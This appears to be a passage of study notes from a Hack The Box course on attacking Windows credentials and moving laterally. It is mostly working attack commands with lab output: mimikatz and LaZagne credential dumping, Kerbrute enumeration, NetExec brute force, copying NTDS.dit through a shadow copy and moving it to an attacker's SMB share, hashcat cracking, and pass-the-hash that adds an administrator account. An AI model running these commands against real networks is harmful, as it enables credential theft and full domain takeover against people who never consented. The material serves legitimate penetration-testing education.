Taking a look at the ```MSV``` part: MSV is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the SID, Username, Domain, and even the NT & SHA1 password hashes associated with the bob user account's logon session stored in LSASS process memory.

Taking a look at the ```WDIGEST``` part: WDIGEST is an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. LSASS caches credentials used by WDIGEST in clear-text. This means if you find yourself targeting a Windows system with WDIGEST enabled, you will most likely see a password in clear-text. Modern Windows OS have WDIGEST disabled by default. Additionally, it is essential to note that Microsoft released a security update for systems affected by this issue with WDIGEST.

Taking a look at the ```Kerberos``` part: Kerberos is a network authentication protocol used by AD in Windows Domain environments. Domain user accounts are granted tickets upon authentication with AD. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. LSASS caches passwords, ekeys, tickets, and pins associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

Taking a look at the ```DPAPI``` part: Mimikatz and Pypykatz can extract the DPAPI masterkey for logged-on users whose data is present in LSASS process memory. These masterkeys can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts.

#### Cracking the NT Hash with Hashcat

```bash
d41y@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

### Attacking Windows Credential Manager

Credential Manager is a feature built into Windows Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles:

- ```%UserProfile%\AppData\Local\Microsoft\Vault\```
- ```%UserProfile%\AppData\Local\Microsoft\Credentials\```
- ```%UserProfile%\AppData\Roaming\Microsoft\Vault\```
- ```%ProgramData%\Microsoft\Vault\```
- ```%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\```

Each vault folder contains a ```Policy.pol``` file with AES keys that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of Credential Guard to further protect the DPAPI master keys storing them in secured memory enclaves.

Microsoft often refers to the protected stores as Credential Lockers. Credenial Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

| Name | Description |
| ---- | ----------- |
| Web Credentials | credentials associated with websites and online accounts; this locker is used by Internet Explorer and legacy versions if Microsoft Edge |
| Windows Credentials | used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories |

It is possible to export Windows Vaults to ```.crd``` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

#### Enumerating Credentials with cmdkey

You can use cmdkey to enumerate the credentials stored in the current user's profile:

```
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

| Key | Value |
| --- | ----- |
| Target | the resource or account name the credential is for; this could be a computer, domain name, or a special identifier |
| Type | the kind of credential; common types are Generic for general credentials, and Domain Password for domain user logons |
| User | the user account associated with the credential |
| Persistence | some credentials indicate whether a credential is saved persistently on the computer; credentials marked with "Local machine persistence" survive reboots |

The first credential in the command output above (```virtualapp/didlogical```) is a generic credential used by Microsoft account / Windows Live services. The random looking username is an internal account ID. This entry may be ignored for your purposes.

The second credential (```Domain:interactive=SRV01\mcharles```) is a domain credential associated with the user SRV01\mcharles. Interactive means that the credential is used for interactive logon sessions. Whenever you come across this type of credential, you can use ```runas``` to impersonate the stored user like so:

```
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

#### Extracting Credentials with Mimikatz

There are many different tools that can be used to decrypt stored credentials. One of the tools you can use is mimikatz. Even within mimikatz, there are multiple ways to attack these credentials - you can either dump credentials from memory using the ```sekurlsa``` module, or you can manually decrypt credentials using the ```dpapi``` module.

```
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

### Attacking AD and NTDS.dit


Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests. That domain-joined system will now send authentication requests to be validated by the DC before allowing a user to log on. This does not mean the SAM database can no longer be used. Someone looking to log on using a local account in the SAM database can still do so by specifying the hostname of the device preceeded by the username (_WS01\nameofuser_) or with direct access to the device then typing ```.\``` at the logon UI in the username field. This is worthy of consideration because you need to be mindful of what system components are impacted by the attacks you perform. It can also give you additional avenues of attack to consider when targeting Windows desktop OS or Windows server OS with direct physical access over a network. Keep in mind that you can also study NTDS attacks by keeping track of [this technique](https://attack.mitre.org/techniques/T1003/003/).

#### Dictionary Attacks against AD Accounts using NetExec

> [!NOTE]
> Keep in mind that a dictionary attack is essentially using the power of a computer to guess usernames and/or passwords using a customized list of potential usernames and passwords. It can be rather noisy to conduct these attacks over a network because they can generate a lot of network traffic and alerts on the target system as well as eventually get denied due to login attempt restriction that may be applied through the use of Group Policy.

When you find yourself in a scenario where a dictionary attack is a viable next step, you can benefit from trying to tailor your attack as much as possible. Many organizations follow a naming convention when creating employee usernames. Some common convetions are:

- firstinitiallastname
- firstinitialmiddleinitiallastname
- firstnamelastname
- firstname.lastname
- lastname.firstname
- nickname

Often, an email address's structure will give you the employee's username.

##### Creating a Custom List of Usernames

You can manually create your list(s) or use an automated list generator such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats.

```bash
d41y@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
benw
b.williamson
bwilliamson
wben
w.ben
williamsonb
williamson
williamson.b
williamson.ben
bw
bob
bobburgerstien
bob.burgerstien
bobburge
bobburg
bobb
b.burgerstien
bburgerstien
bbob
b.bob
burgerstienb
burgerstien
burgerstien.b
burgerstien.bob
bb
jim
jimstevenson
jim.stevenson
jimsteve
jimstev
jims
j.stevenson
jstevenson
sjim
s.jim
stevensonj
stevenson
stevenson.j
stevenson.jim
js
jill
jilljohnson
jill.johnson
jilljohn
jillj
j.johnson
jjohnson
jjill
j.jill
johnsonj
johnson
johnson.j
johnson.jill
jj
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```

##### Enumerating Valid Usernames with Kerbrute

Before you start guessing passwords for usernames which might not even exist, it may be worthwile identifying correct naming convention and confirming the validity of some usernames. You can do this with a tool like [Kerbrute](https://github.com/ropnop/kerbrute). Kerbrute can be used for brute-forcing, password spraying and username enumeration.

```bash
d41y@htb[/htb]$ ./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 09:17:10 >  Using KDC(s):
2025/04/25 09:17:10 >   10.129.201.57:88

2025/04/25 09:17:11 >  [+] VALID USERNAME:       bwilliamson@inlanefreight.local
<SNIP>
```

##### Launching a Brute-Force Attack with NetExec

Once you have your list(s) prepared or discover the naming convention and some employee names, you can launch a brute-force attack against the target DC using a tool such as NetExec. You can use it in conjunction with the SMB protocol to send logon requests to the target DC:

```bash
d41y@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

##### Event Logs from the Attack



It can be useful to know what might have been left behind by an attack. Knowing this can make your remediation recommendations more impactful and valuable for the client you are working with. On any Windows OS, an admin can navigate to Event Viewer and view the Security events to see the exact actions that were logged. This can inform decisions to implement stricter security controls and assist in any potential investigation that might be involved following a breach.

Once you have discovered some creds, you could proceed to try to gain remote access to the target DC and capture the NTDS.dit file.

#### Capturing NTDS.dit

NT Directory Services (_NTDS_) is the directory service used with AD to find and organize network resources. Recall that NTDS.dit file is stored at ```%systemroot%/ntds``` on the DC in a forest. The ```.dit``` stands for directory information tree. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, you could potentially compromise every account on the DC.

##### Connecting to a DC with Evil-WinRm

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

##### Checking Local Group Membership

```bash
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

You are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, you need local admin (_Administrators Group_) or Domain Admin (_Domain Admins Group_) rights.

##### Checking User Account Privileges including Domain

You will also want to check what domain privileges you have.

```bash
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means you can do just about anything you want, including making a copy of the NTDS.dit file.

##### Creating Shadow Copy of C:

You can use vssadmin to create a Volume Shadow Copy (_VSS_) of the ```C:\``` drive or whatever volume the admin chose when initally installing AD. It is very likely that NTDS will be stored on ```C:\``` as that is the default location selected at install, but it is possible to change the location. You use VSS for this because it is designed to make copies of volumes that may be read and written to actively without needing to bring a particular application or system down. VSS is used by many different backup and disaster recovery software to perform operations.

```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copying NTDS.dit from the VSS

You can copy the NTDS.dit file from the volume shadow copy of ```C:\``` onto another location on the drive to prepare to move NTDS.dit to your attack host.

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

Before copying NTDS.dit to your attack host, you may want to use the technique to create an SMB share.

##### Transferring NTDS.dit to Attack Host

Now ```cmd.exe /c move``` can be used to move the file from the target DC to the share on your attack host.

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.	
```

##### Extracting Hashes from NTDS.dit

With a copy of NTDS.dit on your attack host, you can go ahead and dump the hashes. One way to do this is with Impacket's secretdump:

```bash
d41y@htb[/htb]$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
<SNIP>
```

##### A faster Method: Using NetExec to capture NTDS.dit

Alternatively, you may benefit from using NetExec to accomplish the same steps shown above, all with one command. This command allows you to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within your terminal session.

```bash
d41y@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

SMB         10.129.201.57   445     DC01         [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [*] NTDS dump copied to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\Windows\Temp\174556000 remote dump directory
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.201.57   445     DC01         DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
NTDSUTIL    10.129.201.57   445     DC01         Administrator:des-cbc-md5:618c1c5ef780cde3
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
NTDSUTIL    10.129.201.57   445     DC01         DC01$:des-cbc-md5:a2852362e50eae92
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:des-cbc-md5:9bd5017fdcea8fae
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes to /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds of which 15 were added to the database
NTDSUTIL    10.129.201.57   445    DC01          [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.129.201.57   445    DC01          [*] grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```

#### Cracking Hashes and Gaining Credentials

You can proceed with creating a text file containing all the NT hashes, or you can individually copy and paste a specific hash into a terminal session and use Hashcat to attempt to crack the hash and a password in cleartext.

```bash
d41y@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

#### Pass the Hash (PtH) Considerations

What if you are unsuccessful in cracking the hash?

You can still use hashes to attempt to authenticate with a system using a type of attack called Pass-the-Hash. A PtH attack takes advantage of the NTLM authentication protocol to authenticate a user using a password hash. Instead of ```username:clear-text-password``` as the format login, you can instead use ```username:password_hash```.

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

### Credential Hunting

... is the process of performing detailed searches across the file system and through various applications to discover credentials.

#### Search-centric

Many of the tools available in Windows have search functionality. In this day and age, there are search-centric features built into most apps and OS, so you can use this to your advantage on an engagement. A user may have documented their passwords somewhere on the system. There may even be default credentials that could be found in various files. It would be wise to base your search for credentials on what you know about the target system is being used.

##### Key Terms to Search for

Some helpful key terms you can use that help you discover some credentials:

- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- configuration
- dbcredential
- dbpassword
- pwd
- Login
- Credentials

#### Search Tools

##### Windows Search

With access to the GUI, it is worth attempting to use Windows Search to find files on the target using some of the keywords mentioned above.



By default, it will search various OS settings and the file system for files and applications containing the key term entered in the search bar.

##### [LaZagne](https://github.com/AlessandroZ/LaZagne)

... is made up of modules which each target different software when looking for passwords.

| Module | Description |
| ------ | ----------- |
| browsers | extracts passwords from various browsers including Chromium, Firefox, Microsoft Edge, and Opera |
| chats | extracts passwords from various chat apps including Skype |
| mails | searches through mailboxes for passwords including Outlook and Thunderbird |
| memory | dumps passwords from memory, targeting KeePass and LSASS |
| sysadmin | extracts passwords from the configuration files of various sysadmin tools like OpenVPN and WinSCP |
| windows | extracts Windows-specific credentials targeting LSA secrets, Credential Manager, and more |
| wifi | dumps WiFi credentials |

It would be beneficial to keep a standalone copy of LaZagne on your attack host so you can quickly transfer it over to the target. LaZagne.exe will do just fine for you in this scenario.

Once LaZagne.exe is on the target, you can open command prompt or PowerShell, navigate to the directory the file was uploaded to, and execute the following command:

```
C:\Users\bob\Desktop> start LaZagne.exe all
```

This will execute LaZagne and run all included modules. You can include the option ```-vv``` to study what it is doing in the background. Once you hit enter, it will open another prompt and display the results.

```
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

If you used the ```-vv``` option, you would see attempts to gather passwords from all LaZagne's supported software.

##### findstr

You can also use findstr to search from patterns across many types of files. Keeping in mind common key terms, you can use variations of this command to discover credentials on a Windows target:

```
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

#### Additional Considerations

There are thousands of tools and key terms you could use to hunt for credentials on Windows OS. Know that which ones you choose to use will be primarily based on the function of the computer. If you land on a Windows Server, you may use a different approach than if you land on a Windows Desktop. Always be mindful of how the system is being used, and this will help you know where to look. Sometimes you may even be able to find credentials by navigating and listing dirs on the file system as your tools run.

Here are some other places you should keep in mind when credential hunting:

- passwords in Group Policy in the SYSVOL share
- passwords in scripts in the SYSVOL share
- passwords in web.config files on dev machines and IT shares
- passwords in unattend.xml
- passwords in the AD user or computer description fields
- KeePass databases
- Found on user systems and shares
- Files with names like pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, and Sharepoint

## Windows Lateral Movement Techniques

### Pass the Hash (_PtH_)

A PtH attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker does not need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication procotol, as the password hash remains static for every session until the password session is changed.

Hashes can be obtained in several ways, including:

- Dumping the local SAM database from a compromised host
- Extracting hashes from the NDTS database on a DC
- Pulling the hashes from memory

#### Intro to Windows NTLM

Microsoft's Windows New Technology LAN Manager (_NTLM_) is a set of security protocols that authenticates users' identities while also protecting the integrity and confidentiality of their data. NTLM is a single sign-on solution that uses a challenge-response protocol to verify the user's identity without having them provide a password.

With NTLM, passwords storedd on the server and DC are not "salted", which means that an adversary with a password hash can authenticate a session without knowing the original password.

#### PtH with Mimikatz

Mimikatz has a module called "sekurlsa::pth" that allows you to perform a PtH attack by starting a process using the hash of the user's password. To use this module, you will need the following:

- ```/user``` - the user name you want to impersonate
- ```/rc4``` or ```/NTLM``` - NTLM hash of the user's password
- ```/domain``` - domain the user to impersonate belongs to (_in the case of a local user account, you can use the computer name, localhost, or a dot_)
- ```/run``` - the program you want to run with the user's context

```
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
  |  PID  8404
  |  TID  4268
  |  LSA Process was already R/W
  |  LUID 0 ; 5218172 (00000000:004f9f7c)
  \_ msv1_0   - data copy @ 0000028FC91AB510 : OK !
  \_ kerberos - data copy @ 0000028FC964F288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000028FC9673AE8 (32) -> null
```

#### PtH with PowerShell Invoke-TheHash


Another tool you can use to perform PtH attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). This tool is a collection of PowerShell functions for performing PtH attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash you use to authenticate need to have administrative rights on the target computer.

When using ```Invoke-TheHash```, you have two options: SMB or WMI command execution. To use this tool, you need to speciy the following parameters to execute commands in the target computer:

- ```Target``` - hostname or IP address of the target
- ```Username``` - username to use for authentication
- ```Domain``` - domain to use for authentication (_this parameter is unnecessary with local accounts or when using the @domain after the username_)
- ```Hash``` - NTLM password hash for authentication (_this function will accept either LM:NTLM or NTLM format_)
- ```Comannd``` - command to execute on the target (_if a command is not specified, the function will check to see if the username and hash have access to WMI on the target_)

SMB:

```ps
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```

WMI:

```ps
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
